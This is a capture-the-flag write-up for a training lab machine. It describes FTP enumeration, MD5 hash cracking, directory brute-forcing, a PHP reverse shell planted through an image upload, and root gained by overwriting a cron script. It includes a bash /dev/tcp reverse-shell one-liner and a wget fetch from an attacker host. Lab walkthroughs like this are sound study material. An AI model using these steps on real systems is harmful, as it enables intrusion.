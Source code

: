 
After the scan we found 3 open ports
Note: For more details look into "Rust and Nmap Scans"

- Port 21 vsftpd 3.0.3
- Port 22 OpenSSH 7.9p1
- Port 80 Apache httpd 2.4.38 ((Debian))

**Anonymous FTP  allowed.**

- In this ftp login we found a note
  
```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

``` 

So, we got student registration number and password hash

Cracking hash I got: cd73502828457d15655bbd7a63fb0bc8:student (I've used hashes.com) 
for the cracking we can used the commandline
Find the hash: hash-identifier cd73502828457d15655bbd7a63fb0bc8  
(The hash is md5). Save this hash into a file 
Now use hashcrack: hashcrack -m 0 hash.txt path/to/wordlist
- hashcrack -m <mode for hash> <hash file that need to be cracked> <wordlist>

Now, to know the exact location of the login page for students. I performed a gobuster directory scan. For more details look into the gobuster.txt.

Other tools:
	- dirb http://<ip address>
	- ffuf -w /usr/share/wordlst/dirbuster/directory-list-2.3-medium.txt:FUZZ http://<ip address>/FUZZ

```
Successfully logged inn
```
Now, after successful login I've observed there's a my-profile page where we can upload an image. (But instead of image I uploaded an php reverse shell).
Note: before uploading the php reverse shell open an netcat listener.

Now, after the successful reverse shell. I thought of privilege escalation but we have limited access.

So, I executed "linpeas.sh"

I downloaded linpeas and opened an python3 http.server
- Command: wget http://<attacker Ip>:<port>/linpeas.sh

After, executing linpeas.sh I found an user name "grimmie" and his password "My_V3ryS3cur3_P4ss".

Performed ssh : ssh grimmie@<target ip> 

Found a box backup.sh
Info: while performing linpeas.sh I didn't find any cronjobs in the machine.

So, in order to check any automated files running on the system I downloaded pspy64 tool. This tools helps to monitor all the processes which are running on the system without root access.

So, downloaded pspy from "https://github.com/DominicBreuker/pspy?tab=readme-ov-file"

I found backup.sh was running for every minute with root privilege.

So, I changed the content of backup.sh and added the one linear bash script for reverse chell.

""' `bash -c 'exec bash -i &>/dev/tcp/192.168.1.12/9999 <&1' '""


Finally got the root access and captured the flag.

%% congratz you rooted this box !
    Loks like this CMS isn't so secure...
    I hope you enjoyed it.
    If you have any issue please let us know in the course discord.
    Happy hacking !
%%









